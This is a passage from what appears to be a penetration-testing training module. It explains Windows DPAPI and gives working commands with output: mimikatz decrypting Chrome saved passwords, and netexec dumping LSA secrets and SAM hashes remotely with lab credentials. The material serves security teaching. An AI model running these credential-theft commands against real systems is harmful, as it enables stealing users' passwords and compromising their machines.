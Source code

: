 ## DPAPI
In addition to the DCC2 hashes, we previously saw that the `machine and user keys` for `DPAPI` were also dumped from `hklm\security`. The Data Protection Application Programming Interface, or [DPAPI](https://docs.microsoft.com/en-us/dotnet/standard/security/how-to-use-data-protection), is a set of APIs in Windows operating systems used to encrypt and decrypt data blobs on a per-user basis. These blobs are utilized by various Windows OS features and third-party applications. Below are just a few examples of applications that use DPAPI and how they use it:

|Applications|Use of DPAPI|
|---|---|
|`Internet Explorer`|Password form auto-completion data (username and password for saved sites).|
|`Google Chrome`|Password form auto-completion data (username and password for saved sites).|
|`Outlook`|Passwords for email accounts.|
|`Remote Desktop Connection`|Saved credentials for connections to remote machines.|
|`Credential Manager`|Saved credentials for accessing shared resources, joining Wireless networks, VPNs and more.|
DPAPI encrypted credentials can be decrypted manually with tools like Impacket's [dpapi](https://github.com/fortra/impacket/blob/master/examples/dpapi.py), [mimikatz](https://github.com/gentilkiwi/mimikatz), or remotely with [DonPAPI](https://github.com/login-securite/DonPAPI).


```cmd-session
C:\Users\Public> mimikatz.exe
mimikatz # dpapi::chrome /in:"C:\Users\bob\AppData\Local\Google\Chrome\User Data\Default\Login Data" /unprotect
> Encrypted Key found in local state file
> Encrypted Key seems to be protected by DPAPI
 * using CryptUnprotectData API
> AES Key is: efefdb353f36e6a9b7a7552cc421393daf867ac28d544e4f6f157e0a698e343c

URL     : http://10.10.14.94/ ( http://10.10.14.94/login.html )
Username: bob
 * using BCrypt with AES-256-GCM
Password: April2025!
```

## Remote dumping & LSA secrets considerations

With access to credentials that have `local administrator privileges`, it is also possible to target LSA secrets over the network. This may allow us to extract credentials from running services, scheduled tasks, or applications that store passwords using LSA secrets.
#### Dumping LSA secrets remotely

```shell-session
Ovas420@htb[/htb]$ netexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --lsa
```
#### Dumping SAM Remotely

Similarly, we can use netexec to dump hashes from the SAM database remotely.
```shell-session
Ovas420@htb[/htb]$ netexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --sam
```
